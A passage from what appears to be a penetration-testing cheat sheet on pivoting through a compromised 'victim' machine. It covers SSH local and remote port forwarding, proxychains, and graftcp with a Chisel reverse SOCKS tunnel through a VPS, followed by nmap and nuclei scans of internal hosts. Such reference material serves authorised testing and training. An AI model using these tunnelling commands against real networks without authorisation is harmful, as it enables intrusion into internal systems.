 Local port forwarding allows you to forward a port on the local (attacker) machine to a port on the remote (victim) machine. This is particularly useful for scanning local ports on the victim.

#### Usage
```bash
ssh user@victim-IP -L 8888:127.0.0.1:8086
```

This forwards local port 8888 to port 8086 on the victim machine. Now, you can scan the forwarded port on the victim machine using a tool like nmap:

```bash
nmap -Pn -n -p8888 -sV 127.0.0.1
```

```bash
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

**Config file**: /etc/proxychains.conf

```bash
[ProxyList]
socks4 localhost 8080
```

Set the SOCKS4 proxy then `proxychains nmap -sT 192.168.5.6`

## Graftcp

> A flexible tool for redirecting a given program's TCP traffic to SOCKS5 or HTTP proxy.

:warning: Same as proxychains, with another mechanism to "proxify" which allow Go applications.

```ps1
# https://github.com/hmgle/graftcp

# Create a SOCKS5, using Chisel or another tool and forward it through SSH
(attacker) $ ssh -fNT -i /tmp/id_rsa -L 1080:127.0.0.1:1080 root@IP_VPS
(vps) $ ./chisel server --tls-key ./key.pem --tls-cert ./cert.pem -p 8443 -reverse 
(victim 1) $ ./chisel client --tls-skip-verify https://IP_VPS:8443 R:socks 

# Run graftcp and specify the SOCKS5
(attacker) $ graftcp-local -listen :2233 -logfile /tmp/toto -loglevel 6 -socks5 127.0.0.1:1080
(attacker) $ graftcp ./nuclei -u http://172.16.1.24
```

Simple configuration file for graftcp

```py
# https://github.com/hmgle/graftcp/blob/master/local/example-graftcp-local.conf
## Listen address (default ":2233")
listen = :2233
loglevel = 1

## SOCKS5 address (default "127.0.0.1:1080")
socks5 = 127.0.0.1:1080
# socks5_username = SOCKS5USERNAME
# socks5_password = SOCKS5PASSWORD

## Set the mode for select a proxy (default "auto")
select_proxy_mode = auto
```
